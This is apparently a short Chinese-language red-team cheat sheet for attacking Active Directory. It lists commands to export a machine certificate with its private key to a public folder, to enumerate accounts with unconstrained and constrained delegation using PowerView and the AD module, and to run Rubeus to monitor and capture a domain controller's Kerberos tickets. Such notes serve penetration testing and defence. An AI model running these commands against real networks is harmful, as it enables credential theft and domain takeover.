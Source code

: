 # dump出证书
```
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

下面路径查看本地的证书

```
ls cert:\LocalMachine\My
```

导出证书
```
ls cert:\LocalMachine\My\BAD78F43BB4CB13C4843E49B51AA051530FFBBDB | Export-PfxCertificate -FilePath C:\Users\Public\pawadmin.pfx -Password (ConvertTo-SecureString -String 'SecretPass@123' -Force -AsPlainText)
```

# 无约束委派计算机

pv
```
Get-DomainComputer -Unconstrained
```

ad
```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

# 约束委派用户

pv
```
Get-DomainUser -TrustedToAuth | select userprincipalname,msds-allowedtodelegateto
```

# 约束委派机器
pv
```
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto
```

# 约束委派对象（机器和用户）
ad
```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```


# 监听流量认证(当Unconstrained时)
```
Rubeus.exe monitor /targetuser:US-DC$ /interval:5 /nowrap
```
